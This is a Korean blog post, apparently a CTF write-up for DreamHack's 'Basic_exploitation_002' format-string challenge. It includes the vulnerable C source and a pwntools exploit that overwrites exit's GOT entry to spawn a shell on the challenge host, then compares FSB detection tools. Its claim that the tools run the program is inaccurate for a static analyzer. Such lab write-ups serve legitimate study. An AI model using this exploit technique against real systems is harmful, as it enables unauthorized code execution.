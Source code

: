 ```yaml
---
title: "(DreamHack) Basic_exploitation_002"
date: 2021-03-05 05:24:00 -0400
categories: Security
---
```


## 풀이
Basic_exploitation_002는 FSB (Format String Bug)에 관한 문제이다.

FSB는 printf, sprintf 등 서식 문자를 사용하는 함수에서 매개변수를 검증하지 않아 발생하는 보안약점이며, 이를 통해 메모리 내용을 볼 수도 있다.

``` C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

위 코드에서는 printf함수에 buf만이 들어왔기 때문에 취약하다고 볼 수 있다.\
먼저 buf 변수를 통해 메모리 내용을 확인하고, exit() 함수에 get_shell()함수 주소를 덮어 씌움으로써 쉘을 실행시키도록 한다.

![image](https://user-images.githubusercontent.com/24788751/110103059-d4bd6a00-7de8-11eb-8f9b-229b895ef366.png)
FSB를 익스플로잇하여 첫번째 서식 문자부터 'AAAA'를 참조하는 것을 알 수 있다.

![image](https://user-images.githubusercontent.com/24788751/110103358-34b41080-7de9-11eb-9bfe-cd3937fb5988.png)
디스어셈블러를 통해 get_shell()의 주소가 0x8048609임을 알아냈다.

``` Python
from pwn import *

p = remote("host1.dreamhack.games", 12773)
elf = ELF("./basic_exploitation_002")

exit = elf.got['exit']
get_shell = 0x8048609

payload = p32(exit)
payload += p32(exit + 2)
payload += "%34305d"
payload += "%1$n"
payload += "%33275d"
payload += "%2$n"

p.send(payload)
p.interactive()
```

## FSB 탐지
디스어셈블러와 디버거가 아닌 자동화된 보안약점 분석 도구에서는 어떻게 FSB를 탐지하는지 알아본다. 먼저 FSB는 printf, sprintf 등의 취약한 함수를 사용할 경우 발생할 가능성이 높아지므로 printf_s, sprintf_s 등의 함수를 사용하여야 한다.

### 취약한 함수 이름 검색
**Flawfinder**, **Cppcheck**과 같은 보안약점 분석기는 위에서 말한 printf와 같은 취약한 함수들을 단순히 검색하여 해당 프로그램이 취약한 지 분석한다.

### 오염 분석, 데이터 흐름 분석 (Taint analysis, data flow analysis)
**Clang Static Analyzer**는 오염 분석, 데이터 흐름 분석 등의 분석 기법을 이용하여 메모리 값이 변하는지 직접 확인함으로써 보안약점을 탐지한다.
![image](https://user-images.githubusercontent.com/24788751/110103433-4c8b9480-7de9-11eb-8034-817d34e59780.png)

### 두 방식의 장단점
단순히 취약한 함수 이름을 검색한다고 해서 취약하다고 탐지된 프로그램이 실제로 취약한 프로그램인지 확실하지 않을 수 있다. (false positive)\
반면 단순 스트링 매칭 방식이기 때문에 빠른 시간 내에 프로그램을 분석할 수 있는 장점이 있다.

오염 분석, 데이터 흐름 분석은 프로그램을 실제로 실행하면서 취약점의 존재 유무를 판단하기 때문에 더 정확하다. 그러나 프로그램을 실행하면서 분석하기 때문에 분석 시간이 오래 걸린다는 단점이 있다.